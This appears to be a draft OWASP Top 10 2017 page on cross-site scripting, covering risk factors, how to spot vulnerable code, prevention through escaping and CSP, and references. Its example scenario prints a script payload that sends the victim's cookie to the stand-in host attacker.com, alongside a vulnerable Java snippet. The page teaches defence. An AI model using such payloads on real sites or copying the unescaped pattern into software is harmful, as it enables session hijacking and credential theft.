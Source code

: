 # A7 Cross Site Scripting

| Factor | Score | Description |
| -- | -- | -- |
| Threat agent | ? | The threat agent is app specific, and depends on access, motive, and goals against the data asset. |
| Exploitability | EASY (3) | Automated tools can exploit all three forms of XSS, and there are freely available exploitation frameworks. |
| Prevalence | WIDESPREAD (3) | XSS is the second most prevalent issue in the OWASP Top 10, and is found in around two thirds of all applications. |
| Detectability | EASY (3) | XSS can be discovered by SAST and DAST tools, as well as anyone with a browser. |
| Impact | MODERATE (2) | The impact of XSS is moderate for reflected and DOM XSS, and severe for stored XSS, with remote code execution on the victim's browser, such as stealing credentials, sessions, or delivering malware to the victim. |
| Business impacts | ? | The business impact is application specific, and depends on the classification and protection needs of your application and data. |
| Score | 6.0 | MEDIUM |

## Am I vulnerable to attack?

You are vulnerable to Server XSS if your server-side code uses user-supplied input as part of the HTML output, and you don’t use context-sensitive escaping to ensure it cannot run. If a web page uses JavaScript to dynamically add attacker-controllable data to a page, you may have Client XSS. Ideally, you would avoid sending attacker-controllable data to unsafe JavaScript APIs, but escaping (and to a lesser extent) input validation can be used to make this safe.

Automated tools can find some XSS problems automatically. 
However, each application builds output pages differently and uses different browser side interpreters such as JavaScript, ActiveX, Flash, and Silverlight, usually using 3rd party libraries built on top of these technologies. 
This diveristy makes automated detection difficult, particularly when using modern single-page applications and powerful JavaScript frameworks and libraries. 
Therefore, complete coverage requires a combination of manual code review and penetration testing, in addition to automated approaches.

## How do I prevent

Preventing XSS requires separation of untrusted data from active browser content.

1. Escaping untrusted HTTP request data based on the context in the HTML output (body, attribute, JavaScript, CSS, or URL) will resolve [Server XSS](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting#Server_XSS) vulnerabilities. The [OWASP XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) has details on the required data escaping techniques.

2. Applying context sensitive encoding when modifying the browser document on the client side acts against [client XSS](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting#Client_XSS). When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the [OWASP DOM based XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet).

3. Enabling a [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)) (CSP) and moving inline javascript code to additional files will defend against XSS across the entire site, assuming no other vulnerabilities (such as upload path tampering or download path traversal) exist that would allow placing malicious code in the server files.

## Example Scenarios

The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`

The attacker manipulates the ‘CC’ parameter in his browser to:

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session. 
Note that attackers can also use XSS to defeat any automated CSRF defense the application might employ. See 2017-A8 for information on CSRF.

## References

### OWASP
* [OWASP Proactive Controls - TBA]()
* [OWASP Application Security Verification Standard - TBA]()
* [OWASP Testing Guide: 1st 3 Chapters on Data Validation Testing]()
* OWASP Types of Cross-Site Scripting
* OWASP XSS Prevention Cheat Sheet
* OWASP DOM based XSS Prevention Cheat Sheet
* OWASP XSS Filter Evasion Cheat Sheet
### External
* CWE Entry 79 on Cross-Site Scripting
* Do we have a non-vendor reference for this? [PortSwigger: Client-side template injection](https://portswigger.net/knowledgebase/issues/details/00200308_clientsidetemplateinjection)
